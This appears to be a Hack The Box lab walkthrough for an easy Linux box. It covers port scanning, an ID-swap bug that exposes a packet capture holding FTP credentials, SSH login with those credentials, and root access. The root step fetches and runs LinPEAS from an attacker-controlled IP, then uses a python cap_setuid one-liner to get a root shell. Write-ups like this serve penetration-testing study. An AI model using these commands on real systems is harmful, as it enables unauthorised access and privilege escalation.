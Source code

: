 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔍 Recon
```bash
nmap -T4 -A -p- 10.10.10.245
```

### Ports Found
- **21/tcp** → [FTP](FTP) (vsftpd 3.0.3)
- **22/tcp** → [SSH](SSH) (OpenSSH 8.2p1)
- **80/tcp** → [HTTP](HTTP) (gunicorn)

---

## 🔧 Web Enumeration
- Visit `http://10.10.10.245` → Security Dashboard interface
- `Security Snapshot` → Download PCAP files via `/download` endpoint
- Change `id=1` to `id=0` to reveal an additional hidden PCAP

### Download and Analyze PCAP
```bash
# Download hidden capture
curl "http://10.10.10.245/download?id=0" -o hidden.pcap

# Open in Wireshark and search for "password"
```

### Extracted Credentials from FTP
- **Username:** nathan
- **Password:** Buck3tH4TF0RM3!

---

## 🔐 Access via SSH
```bash
ssh nathan@10.10.10.245
# password: Buck3tH4TF0RM3!
```

---

## 🪧 Privilege Escalation
### Use LinPEAS
```bash
# Transfer and run LinPEAS
wget http://10.10.14.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Finding
- `/usr/bin/python3.8` has **cap_setuid** capability

### GTFOBins Exploit
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

---

## ✅ Root Access
```bash
whoami
id
cat /root/root.txt
```

---

## 📂 Summary
- Cleartext FTP credentials found in PCAP
- Used for SSH access
- `cap_setuid` capability abused on Python for root shell

---

## 📃 Resources
- [GTFOBins - python](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [CVE-Exploit Reference](https://www.hackthebox.com)